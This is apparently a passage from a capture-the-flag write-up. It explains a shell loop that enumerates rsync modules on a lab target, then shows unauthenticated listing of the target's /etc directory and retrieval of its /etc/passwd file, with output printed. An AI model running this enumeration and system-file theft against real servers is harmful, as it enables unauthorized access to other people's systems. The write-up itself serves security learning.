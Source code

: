 

That loop breaks down as:

-   `rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/` -
    List the modes
-   `grep "Backup access to"` - isolate the lines with the paths
-   `cut -d' ' -f1` - isolate the paths
-   `while read dir; do` - loop over the paths
-   `rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/${dir}/ 2>&1` -
    try to list that path, forwarding stderr to stdout
-   `grep -q "access denied"` - `grep` without printing anything, just
    succeeding or failing
-   `&& echo "[-] ${dir}: denied" || echo "[+] ${dir}: ACCESS GRANTED";` -
    print message based on `grep` return code.

I did notice that the message of the day says that there are modules for
"Backup access" and "Cloud Sync", but only "Backup access: ones show up.
Eventually, I tried other directories typically found at the system
root. `/home/` failed, but `/etc/` worked:



    root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/                                                                                                          
    ****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

    You must have explicit, authorized permission to access this rsync
    server. Unauthorized attempts and actions to access or use this
    system may result in civil and/or criminal penalties.

    All activities performed on this device are logged and monitored.

    ****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

    @ZE::A staff

    This rsync server is solely for access to the zetta master server.
    The modules you see are either provided for "Backup access" or for
    "Cloud sync".

    drwxr-xr-x          4,096 2019/08/31 15:56:06 .
    -rw-r--r--          2,981 2019/07/27 03:01:29 adduser.conf
    -rw-r--r--             44 2019/07/27 03:03:30 adjtime
    -rw-r--r--          1,994 2019/04/18 00:12:36 bash.bashrc
    -rw-r--r--            367 2018/03/02 15:03:58 bindresvport.blacklist
    -rw-r--r--          5,713 2019/07/27 03:07:27 ca-certificates.conf
    -rw-r--r--          1,042 2019/06/23 13:49:01 crontab
    -rw-r--r--          2,969 2019/02/26 04:30:35 debconf.conf
    -rw-r--r--              5 2019/04/19 07:00:00 debian_version
    -rw-r--r--            604 2016/06/26 16:00:56 deluser.conf
    -rw-r--r--            346 2018/01/14 16:27:01 discover-modprobe.conf
    ...[snip]...



I can get the `/etc/passwd` file:



    root@kali# rsync -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/passwd
    root@kali# cat passwd 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin